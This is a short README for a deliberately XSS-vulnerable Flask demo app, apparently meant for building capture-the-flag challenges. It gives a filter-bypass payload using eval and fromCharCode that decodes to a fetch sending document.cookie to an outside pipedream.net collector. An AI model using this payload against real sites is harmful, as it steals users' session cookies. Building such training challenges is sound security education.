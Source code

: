 ## XSS demo app

This is a demo flask app vulnerable to XSS attack
with chrome headless checker. It may be useful in creation of CTF challenges.

In this application "." and "document" are filtered, so possible payload may be:
```
"><script>eval(String['fromCharCode'](102,101,116,...))</script>
where encoded in ascii query is something like:
fetch('https://our.domain.pipedream.net/?c=' + document['cookie'])
```

### Deployment
Guide for installation, configuration and running is available [here](DEPLOY.md)

### TODO
Plans for project improvement can be found [here](https://github.com/leshark/xss-ctf-challenge/projects/1) <br>
Issues and PR's are welcome!

